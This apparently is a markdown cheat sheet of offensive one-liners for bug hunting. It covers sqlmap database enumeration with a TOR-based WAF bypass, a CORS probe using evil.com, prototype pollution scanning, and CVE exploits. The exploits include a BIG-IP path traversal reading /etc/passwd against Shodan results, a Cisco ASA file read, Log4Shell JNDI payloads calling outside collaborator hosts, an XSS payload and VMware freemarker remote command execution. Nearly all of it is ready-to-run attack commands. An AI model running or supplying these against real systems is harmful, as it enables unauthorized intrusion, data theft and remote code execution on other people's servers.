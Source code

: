 ## SQLi:
```
cat subs.txt | httpx -silent | anew | waybackurls | gf sqli >> sqli.txt ; sqlmap -m sqli.txt -batch --random-agent --level 5 --risk 3 --dbs
```
***Bypass WAF using TOR***
```
sqlmap -r request.txt --time-sec=10 --tor --tor-type=SOCKS5 --check-tor --dbs --random-agent
```
----------------
## CORS:
```
<gau/katana/hakrawler/waybackurls> http://target.com | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
```
---------------
## Prototype Pollution:
```
subfinder -d target.com -all -silent | httpx -silent -threads 100 | anew alive.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```
-------------
## CVEs:
### CVE-2020-5902:
```
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```
### CVE-2020-3452:
```
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt
```
### CVE-2021-44228:
```
cat subs.txt | while read host do; do curl -sk --insecure --path-as-is "$host/?test=${jndi:ldap://log4j.requestcatcher.com/a}" -H "X-Api-Version: ${jndi:ldap://log4j.requestcatcher.com/a}" -H "User-Agent: ${jndi:ldap://log4j.requestcatcher.com/a}";done
```
```
cat urls.txt | sed `s/https:///` | xargs -I {} echo `{}/${jndi:ldap://{}attacker.burpcollab.net}` >> lo4j.txt
```
### CVE-2022-0378:
```
cat URLS.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```
### CVE-2022-22954:
```
cat urls.txt | while read h do ; do curl -sk --path-as-is “$h/catalog-portal/ui/oauth/verify?error=&deviceUdid=${"freemarker.template.utility.Execute"?new()("cat /etc/hosts")}”| grep "context" && echo "$h\033[0;31mV\n"|| echo "$h \033[0;32mN\n";done
```
